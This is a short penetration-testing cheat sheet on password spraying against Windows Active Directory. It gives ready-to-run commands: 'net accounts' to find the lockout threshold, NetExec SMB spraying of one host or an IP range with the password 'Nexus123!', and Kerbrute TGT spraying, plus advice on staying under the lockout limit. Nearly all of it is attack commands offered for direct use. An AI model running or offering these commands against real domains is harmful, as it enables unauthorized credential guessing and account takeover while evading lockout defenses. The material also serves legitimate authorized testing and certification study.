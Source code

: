 # Initial Enumeration
Run the following command on a target if possible:
```batch
net accounts
```
This will give two important details:
* Lockout threshold (how many attempts before your locked out)
* Lockout observation window (how long your locked out for)

It is worth noting these values and adjusting password spraying attacks accordingly (i.e. do less password attempts than the lockout).
# SMB Password Spraying
Sprays user accounts with "Nexus123!" password
```bash
nxc smb $(ANY_DOMAIN_JOINED_MACHINE_IP) -u users.txt -p 'Nexus123!' -d $(DOMAIN) --continue-on-success
```
Spray multiple targets at once:
```bash
nxc smb -t 192.168.182.70-76 -u users.txt -p 'Nexus123!' -d $(DOMAIN) --continue-on-success
```
# TGT Password Spraying
https://github.com/ropnop/kerbrute

Kerbrute can be run on windows or linux. This example ruins on windows to spray usernames with the password "Nexus123!".
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
